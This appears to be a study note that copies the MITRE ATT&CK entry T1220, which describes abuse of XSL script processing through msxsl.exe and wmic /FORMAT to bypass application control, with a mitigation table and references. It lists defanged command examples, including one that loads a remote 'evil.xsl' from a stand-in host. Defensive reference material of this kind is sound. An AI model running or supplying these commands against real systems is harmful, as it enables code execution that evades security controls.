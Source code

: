 ```yaml
---
alias: T1220
---
```


## T1220

Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. (Citation: Microsoft XSLT Script Mar 2017)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to [Trusted Developer Utilities Proxy Execution](https://attack.mitre.org/techniques/T1127), the Microsoft common line transformation utility binary (msxsl.exe) (Citation: Microsoft msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. (Citation: Penetration Testing Lab MSXSL July 2017) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. (Citation: Reaqta MSXSL Spearphishing MAR 2018) Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: Penetration Testing Lab MSXSL July 2017)(Citation: XSL Bypass Mar 2019)

* <code>msxsl.exe customers[.]xml script[.]xsl</code>
* <code>msxsl.exe script[.]xsl script[.]xsl</code>
* <code>msxsl.exe script[.]jpeg script[.]jpeg</code>

Another variation of this technique, dubbed “Squiblytwo”, involves using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript within an XSL file.(Citation: LOLBAS Wmic) This technique can also execute local/remote scripts and, similar to its [Regsvr32](https://attack.mitre.org/techniques/T1218/010)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) provided they utilize the /FORMAT switch.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: XSL Bypass Mar 2019)(Citation: LOLBAS Wmic)

* Local File: <code>wmic process list /FORMAT:evil[.]xsl</code>
* Remote File: <code>wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”</code>


### Tactic
- [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/Mobile-Attack/tactics/Defense Evasion]] (TA0005)

### Platforms
- Windows

### Permissions Required

### Mitigations

| ID | Name | Description |
| --- | --- | --- |
| [[CyberSecurity/Security+/1-Threats-Attacks-Vulnerabilities/Attacking-Frameworks/MITRE ATT&CK/Mobile-Attack/mitigations/Execution Prevention\|M1038]] | Execution Prevention | If msxsl.exe is unnecessary, then block its execution to prevent abuse by adversaries. |

### Sub-techniques


---
### References

- mitre-attack: https://attack.mitre.org/techniques/T1220
- Reaqta MSXSL Spearphishing MAR 2018: https://reaqta.com/2018/03/spear-phishing-campaign-leveraging-msxsl/
- Twitter SquiblyTwo Detection APR 2018: https://twitter.com/dez_/status/986614411711442944
- LOLBAS Wmic: https://lolbas-project.github.io/lolbas/Binaries/Wmic/
- Microsoft msxsl.exe: https://www.microsoft.com/download/details.aspx?id=21714
- Penetration Testing Lab MSXSL July 2017: https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/
- XSL Bypass Mar 2019: https://medium.com/@threathuntingteam/msxsl-exe-and-wmic-exe-a-way-to-proxy-code-execution-8d524f642b75
- Microsoft XSLT Script Mar 2017: https://docs.microsoft.com/dotnet/standard/data/xml/xslt-stylesheet-scripting-using-msxsl-script
